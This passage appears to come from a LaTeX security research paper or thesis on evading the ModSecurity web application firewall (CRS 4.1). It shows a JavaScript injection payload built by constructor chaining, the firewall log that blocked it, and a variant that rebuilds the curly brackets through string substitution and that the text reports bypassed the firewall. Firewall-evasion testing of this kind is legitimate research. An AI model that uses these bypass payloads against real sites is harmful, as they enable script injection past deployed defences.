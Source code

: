 
\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any curly brackets: \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using String Substitution strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, a related payload was created:

\begin{lstlisting}[style=basicStyle, language=Python]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()
\end{lstlisting}

This payload was blocked by the evaluated firewall configuration:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a String Substitution strategy like mentioned in \ref{sec:stringreplace}, the curly brackets were substituted in the payload: 

\begin{lstlisting}[style=basicStyle, language=Python, caption=avoiding {} bypass, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput$'+[open+[]][0][16]+'2+2'+[open+[]][0][36]+':`')()
\end{lstlisting}

A request equipped with this payload successfully evaded the ModSecurity firewall using \acrshort{crs} 4.1. It validated successfully. 


\subsubsection{Forcing Unicode Normalization}

